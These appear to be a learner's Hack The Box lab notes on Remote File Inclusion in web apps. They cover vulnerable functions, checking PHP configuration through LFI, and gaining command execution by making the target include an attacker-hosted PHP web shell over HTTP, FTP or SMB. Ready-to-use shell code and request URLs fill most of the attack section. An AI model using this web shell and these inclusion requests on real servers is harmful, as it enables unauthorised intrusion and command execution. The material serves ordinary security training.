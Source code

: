 ```yaml
---
title: b-RFI
draft: false
tags:
  - rfi
---
```

**Remote File Inclusion (RFI)** is where a web app allows the inclusion of remote URLs.

RFI got two benefits:

1. Enumerating local-only ports and web applications (i.e. SSRF)
2. Gaining remote code execution by including a malicious script that we host

If we refer to the table on the first section, we see that the following are some of the functions that (if vulnerable) would allow RFI:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`file_get_contents()`|✅|❌|✅|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`@Html.RemotePartial()`|✅|❌|✅|
|`include`|✅|✅|✅|
As we can see, almost any RFI vulnerability is also an LFI vulnerability.

However, an LFI may not necessarily be an RFI. This is primarily because of three reasons:

1. The vulnerable function may not allow including remote URLs
2. You may only control a portion of the filename and not the entire protocol wrapper (ex: `http://`, `ftp://`, `https://`).
3. The configuration may prevent RFI altogether, as most modern web servers disable including remote files by default.

## Verify RFI

In modern web apps, remote URL inclusion is usually disabled by default.

Any remote URL inclusion in PHP requires `allow_url_include` setting is enabled.

Let's check on this by reading PHP configuration file using LFI and decoding it as how we did before:

```shell-session
jadu101@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

However, this doesn't determine RFI since the vulnerable function may not allow remote URL.

Best way to try including remote URL and see if we can get its content.

Start with local URL such as `http://127.0.0.1:80/index.php`.


## RCE w RFI

Let's create reverse shell with PHP:

```shell-session
jadu101@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now, we can start a server on our machine with a basic python server with the following command, as follows:

```shell-session
jadu101@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

We can execute commands using the following link:

```URL
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```


### FTP

We may also host our script through the FTP protocol. We can start a basic FTP server with Python's `pyftpdlib`, as follows:

```shell-session
jadu101@htb[/htb]$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

This may also be useful in case http ports are blocked by a firewall or the `http://` string gets blocked by a WAF.

We can execute commands as such:

```URL
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

If the server requires valid authentication, then the credentials can be specified in the URL, as follows:

```shell-session
jadu101@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### SMB

If the vulnerable web app is on Windows, we don't need `allow_url_include` setting to be enabled because we can use the SMB protocol for RFI.

We can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows:

```shell-session
jadu101@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Now, we can include our script by using a UNC path (e.g. `\\<OUR_IP>\share\shell.php`), and specify the command with (`&cmd=whoami`) as we did earlier:

```url
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```